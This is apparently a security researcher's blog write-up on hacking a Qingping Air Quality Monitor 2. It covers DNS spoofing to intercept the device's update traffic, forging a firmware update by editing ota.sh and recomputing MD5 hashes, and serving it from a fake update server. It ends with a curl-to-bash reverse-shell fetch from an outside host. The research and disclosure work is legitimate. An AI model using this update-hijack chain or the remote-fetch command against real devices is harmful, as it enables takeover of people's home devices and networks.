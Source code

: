 ```yaml
---
layout: single
title: Hacking the Qingping Air Quality Monitor 2
date: 2025-08-13
classes: wide
header:
  teaser: /assets/images/qingping/1.jpeg
tags:
  - Exploit-Dev
  - Penetration Testing
  - IoT
---
```


I recently acquired a [Qingping Air Quality Monitor 2](https://www.qingping.co/air-monitor-2/overview) for monitoring indoor air quality. While I’ve been happy with the product, I’m inherently distrustful of IoT devices, especially those that connect to my home’s Wi-Fi network. So, I set out to investigate its functionality with the end goal of obtaining some form of command execution.

## Recon

Running a basic port scan on the device revealed that only port 53 was open, running `dnsmasq 2.85`:

![](/assets/images/qingping/2.png)

A quick search for this version shows a [2022 CVE](https://www.cvedetails.com/cve/CVE-2022-0934/) for a denial-of-service bug. However, this wasn’t of interest here.

Next, I wanted to see what web requests the device makes when connected to the internet. On my home network I use NextDNS, which offers functionality similar to Pihole (though any DNS logging solution would work). Once connected to Wi-Fi, the Qingping device sent several requests to the `*.cleargrass.com` domain.

As a web pentester, I immediately wanted to intercept and inspect these HTTP requests. To do this, I needed to MITM the device’s traffic. Fortunately, NextDNS (or Pihole) lets you add custom DNS entries, so I could map `*.cleargrass.com` to my laptop’s IP address and redirect traffic there. If your network doesn’t have this feature, [bettercap](https://www.bettercap.org/) can perform DNS spoofing.

![](/assets/images/qingping/3.png)

Starting a netcat listener on port 443 confirmed that HTTPS traffic for `*.cleargrass.com` now hit my laptop. The next challenge was intercepting the HTTPS requests. For this, I quickly vibe coded a small Python HTTPS server that proxies requests to Burp Suite on `127.0.0.1:8080`. This script is available [here](/assets/code/qingping/https_tap.py)

First, generate an SSL certificate:
```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes -subj "/CN=localhost"
```

Next, run the HTTPS server script with Burp Suite listening. 

```
sudo python3 https_tap.py --addr 192.168.1.186 --port 443 --cert cert.pem --key key.pem
```

![](/assets/images/qingping/4.png)

Great, we are successfully able to intercept HTTP requests generated by the Qingping device. 

Interestingly, the device continues to function normally while being MITM'd, which potentially indicates that SSL certificate verification is disabled. One would expect that some sort of certificate pinning would be enforced to avoid this scenario.

Note: Since we’ve remapped DNS for `*.cleargrass.com`, you’ll need to restore correct DNS resolution on your laptop so it can forward requests. One way is to temporarily set your laptop's DNS to `8.8.8.8` instead of using the NextDNS/Pihole configuration. Alternatively, set up an SSH SOCKS proxy and configure Burp Suite to use it.

## System Update Functionality

With minimal exposed ports, the system update mechanism seemed the most promising attack surface. Within the device Settings > System Update, one can instruct the device to check for updates. The relevant HTTP request and response are shown below (note: at the time of writing this software version `4.5.6_0156` was the latest stable version).

![](/assets/images/qingping/5.png)

However, if we modify the outbound HTTP request to advertise a lower version, let's say `4.5.6_0155`, the web server responds with instructions to update the device.

![](/assets/images/qingping/6.png)

The HTTP response contains some key information. It tells the device a new version is available, it provides the software update's MD5 hash, the software update's URL location, and a brief description of the update. The next logical step is to inspect this software update package. The device then issues a request to the URL described in the prior HTTP request. This request and response are shown below:


![](/assets/images/qingping/8.png)

One interesting thing to note is that the ETag header contains the MD5 hash of the software update, which is also included in the GET request path.

Downloading and extracting the ZIP file reveals a certificate, several Bash scripts, another ZIP file, and a Linux ELF binary. Given that the device reboots after updating, the `ota.sh` script is likely executed during the update process.



![](/assets/images/qingping/7.png)

At this point, the attack path is clear: intercept the update process and deliver a modified package.

## Crafting our Malicious Update

As previously discussed, `ota.sh` seems like a good candidate to insert our own Bash commands. Let's try a `curl` command to a web server we control to see if these commands will be execution upon updating the software.

![](/assets/images/qingping/9.png)

Next we will also need to update the file `md5` with the new MD5 hash of `ota.sh`, below is a Bash command to achieve this:
```bash
rm -f md5
for f in *; do
  [ "$f" = "md5" ] && continue
  [ -f "$f" ] || continue
  md5 -q "$f" | awk -v n="$f" '{printf "%s  %s\n",$1,n}' >> md5
done
```

![](/assets/images/qingping/10.png)

Next we can zip everything up with a zip command: 
```
zip -X -9 -q -r ../malicious_update.zip .
```

Great, now we have crafted a malicious software update with an added Bash command. Once we supply this update to the device we should see a GET request to our web server.

## Delivering the Malicious Update
Since we can intercept HTTP requests and responses to the device, it is trivial to supply our own .zip file in the HTTP response to the update request. However, as discussed above there are a few additional pieces of information required in the HTTP response headers, such as the MD5 hash. To assist with this, I once again vibe coded a brief script that handles all the math and delivers the proper response.

The attack flow:
1. DNS spoof the `*.cleargrass.com` domain
2. Respond to the check update request with a new update
3. Replace the system update zip file with our own malicious zip

Let's see it in action. If all goes well we should see a curl request on our web server to `/qingping`. Starting the [updated python HTTPS server](/assets/code/qingping/zip_supply.py):
```
 sudo python3 zip_supply.py --addr 192.168.1.186 --port 443 --cert cert.pem --key key.pem --zip-file ../malicious_update.zip
```

 On the device, initiate a system update. We can see the request come through to our fake update server.

 ![](/assets/images/qingping/11.png)

 After a few moments we see the HTTP request to our web server. Nice! 

 ![](/assets/images/qingping/12.png)

From here, obtaining a reverse shell is trivial. I personally had success modifying the shell command in `ota.sh` to `curl https://poc.cinzinga.com/qingping | bash` where the file `qingping` hosted a reverse shell.

 ![](/assets/images/qingping/13.png)

 ## Further Research

The Qingping Air Quality Monitor also integrates with a mobile app, which could be another interesting target. The device’s firmware contains numerous binaries that manage its functions. Analyzing these could uncover deeper vulnerabilities. 